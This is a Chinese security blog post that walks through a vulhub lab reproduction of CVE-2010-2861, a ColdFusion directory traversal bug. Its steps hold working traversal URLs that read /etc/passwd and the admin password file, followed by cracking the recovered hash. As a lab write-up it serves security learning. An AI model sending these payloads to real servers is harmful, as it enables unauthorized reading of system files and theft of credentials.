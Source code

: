 #  Adobe ColdFusion 文件读取漏洞   
Zovt  巢安实验室   2024-10-17 23:23  
  
### 一、实验所需环境  
#### 1、Ubuntu  
#### 2、vulhub  
#### 3、coldfusion/CVE-2010-2861  
### 二、漏洞介绍  
  
Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。  
### 三、漏洞复现  
  
（1）进入vulhub，选择coldfusion/CVE-2010-2861漏洞环境，输入命令启动：docker-compose up -d![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVywWOc6xrwj3dz30BiamgyxXqLjTBwMuavZVojNKy2yvJicTaMlQHoicicYnkgNfrb7VNxZUE1c4FCianw/640?wx_fmt=png&from=appmsg "")  
（2）环境启动可能需要1~5分钟，启动后，访问http://your-ip:8500/CFIDE/administrator/enter.cfm，可以看到初始化页面，输入密码admin，开始初始化整个环境。![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVywWOc6xrwj3dz30BiamgyxXdxbOQjXbtNGEhyMGOdx26eNskJgS22excr7ed3XKPl3RIu0xuibHAfQ/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVywWOc6xrwj3dz30BiamgyxXYyg32eWSAKQGZlreo8uJliaiaEM0ibjLBxVuQKOBsIo6GzaAVaVvR74vg/640?wx_fmt=png&from=appmsg "")  
（3）使用Burp Suite抓包，直接访问http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en，即可读取文件/etc/passwd：![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVywWOc6xrwj3dz30BiamgyxXsZA6iaxnepY0ibZvp0BM50GicErnGOYRadufxYJAAmgj17Tq4iaLLNvzPQ/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVywWOc6xrwj3dz30BiamgyxX6Gq8YPzjWxpgugfw2RibxoEzs7HUK5udaxPbL8xNFsRObwszoFLuDZQ/640?wx_fmt=png&from=appmsg "")  
（4）读取后台管理员密码http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en：![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVywWOc6xrwj3dz30BiamgyxXZdFpCCumJKzGuNFWOCWWXkt9XobkUmF4C0zEhep1uQFRxIYkHv3vLQ/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVywWOc6xrwj3dz30BiamgyxXHbVHb4aSFxy5RL9U4Q8esABJT3dKEP1ePau0mtPKDnfia8NsicA96x1A/640?wx_fmt=png&from=appmsg "")  
（5）将密文复制到解密网站进行解密，解密后获取文明密码为：admin![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVywWOc6xrwj3dz30BiamgyxX1iaiaTDM59p5V9nibuzQ6Q3L1xAf0D6RDia2kwg8tfPEmzR7ibgue39zZfQ/640?wx_fmt=png&from=appmsg "")  
  
### 参考链接：  
- https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2010-2861  
  
- https://www.cnblogs.com/zovt/p/16342006.html  
  
真心感觉自己要学习的知识好多，也有好多大神卧虎藏龙、开源分享。作为初学者，我们可能有差距，不论你之前是什么方向，是什么工作，是什么学历，是大学大专中专，亦或是高中初中，只要你喜欢安全，喜欢渗透，就朝着这个目标去努力吧！有差距不可怕，我们需要的是去缩小差距，去战斗，况且这个学习的历程真的很美，安全真的有意思。但切勿去做坏事，我们需要的是白帽子，是维护我们的网络，安全路上共勉。  
  
  
**本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**  
  
****  
**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。公众号内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**  
  
****  
**敲敲小黑板：《刑法》第二百八十五条　【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。**  
  
  
